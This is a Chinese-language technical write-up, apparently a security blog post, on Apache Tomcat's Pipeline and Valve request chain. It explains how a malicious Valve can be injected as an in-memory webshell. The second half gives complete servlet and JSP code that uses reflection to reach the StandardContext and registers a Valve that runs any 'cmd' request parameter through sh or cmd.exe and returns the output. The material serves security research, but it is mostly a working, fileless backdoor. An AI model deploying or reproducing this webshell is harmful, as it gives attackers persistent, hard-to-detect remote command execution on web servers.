 # Java Security Of Tomcat Valve

## Preparation

​	在之前学习`Listener`内存马、`Filter`内存马和`Servlet`内存马时，下断点的调用栈中总有一个常见的字眼`Valve`，调用链中调用了很多与`Valve`相关的方法的`invoke`方法。

![](img/1.png)

​	`Valve`翻译过来是阀门的意思。在`Tomcat`中，四大容器类`StandardEngine`、`StandardHost`、`StandardContext`、`StandardWrapper`中都有一个管道（`PipeLine`）及若干阀门（`Valve`）。

​	`PipeLine`伴随容器类对象生成时自动生成，就像容器的逻辑总线，按照顺序加载各个`Valve`，而`Valve`是逻辑的具体实现，通过`PipeLine`完成各个`Valve`之间的调用。在`PipeLine`生成时，同时会生成一个缺省`Valve`实现，就是在调试中经常看到的`StandardEngineValve`、`StandardHostValve`、`StandardContextValve`、`StandardWrapperValve`。

​	`Tomcat`在处理一个请求调用逻辑时，为了整体架构的每个组件的可伸缩性和可扩展性，使用了职责链模式来实现客户端请求的处理。在`Tomcat`中定义了两个接口：`Pipeline`（管道）和`Valve`（阀门）。`Pipeline`中有一个最基础的`Valve`，它始终位于末端，最后执行，且封装了具体的请求处理和输出响应的过程。`Pipeline`提供了`addValve`方法，可以添加新`Valve`在`BasicValve`之前，并按照添加顺序执行。

![](img/2.png)

​	`Tomcat`容器的四个子容器中都有基础的`Valve`实现（`StandardEngineValve`、`StandardHostValve`、`StandardContextValve`、`StandardWrapperValve`），它们同时维护了一个`Pipeline`实例（`StandardPipeline`）。也就是说，可以在任何层级的容器上针对请求处理进行扩展，且这四个`Valve`的基础实现都继承了`ValveBase`。

## Process Analysis

​	跟进一下上文最开始调用栈图中的`org.apache.catalina.connector.CoyoteAdapter#service`方法，该方法调用`StandardEngine#getPipline`方法来获取其`Pipeline`，接着获取`Pipeline`中的第一个`Valve`并调用该`Valve`的`invoke`方法。

![](img/3.png)

​	跟进`invoke`方法，发现其调用的是`org.apache.catalina.core.StandardEngineValve#invoke`方法，`StandardEngineValve`继承了`ValveBase`，且在`invoke`方法中能拿到`request`和`response`。

![](img/4.png)

## Achievement

### Idea

​	动态注入`Valve`内存马的具体思路如下：

1. 继承并构造一个恶意的`Valve`；
2. 获取`StandardContext`；
3. 通过`StandardContext`获取当前容器的`StandardPipeline`；
4. 调用`StandardContext#addValve`方法添加恶意`Valve`。

### Dynamic Registration

#### Servlet

```java
package servlet;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletContext;
import javax.servlet.ServletException;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.Scanner;

@WebServlet(name = "ValveMemoryShellServlet", value = "/ValveMemoryShellServlet")
public class ValveMemoryShellServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException, ServletException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            ValveBase valveBase = new ValveBase() {
                @Override
                public void invoke(Request request, Response response) throws IOException {
                    if (((HttpServletRequest) request).getParameter("cmd") != null) {
                        boolean isLinux = true;
                        String osType = System.getProperty("os.name");
                        if (osType != null && osType.toLowerCase().contains("win")) {
                            isLinux = false;
                        }

                        String[] command = isLinux ? new String[]{"sh", "-c", ((HttpServletRequest) request).getParameter("cmd")} : new String[]{"cmd.exe", "/c", ((HttpServletRequest) request).getParameter("cmd")};
                        InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                        Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                        String output = scanner.hasNext() ? scanner.next() : "";
                        ((HttpServletResponse) response).getWriter().write(output);
                        ((HttpServletResponse) response).getWriter().flush();
                    }
                }
            };

            standardContext.getPipeline().addValve(valveBase);
            response.getWriter().write("Valve Inject Successfully...");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

![](img/5.png)

### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    ValveBase valveBase = new ValveBase() {
        @Override
        public void invoke(Request request, Response response) throws IOException {
            if (((HttpServletRequest) request).getParameter("cmd") != null) {
                boolean isLinux = true;
                String osType = System.getProperty("os.name");
                if (osType != null && osType.toLowerCase().contains("win")) {
                    isLinux = false;
                }

                String[] command = isLinux ? new String[]{"sh", "-c", ((HttpServletRequest) request).getParameter("cmd")} : new String[]{"cmd.exe", "/c", ((HttpServletRequest) request).getParameter("cmd")};
                InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                String output = scanner.hasNext() ? scanner.next() : "";
                ((HttpServletResponse) response).getWriter().write(output);
                ((HttpServletResponse) response).getWriter().flush();
            }
        }
    };

    standardContext.getPipeline().addValve(valveBase);
    response.getWriter().write("Valve Inject Successfully...");
%>
```

![](img/6.png)
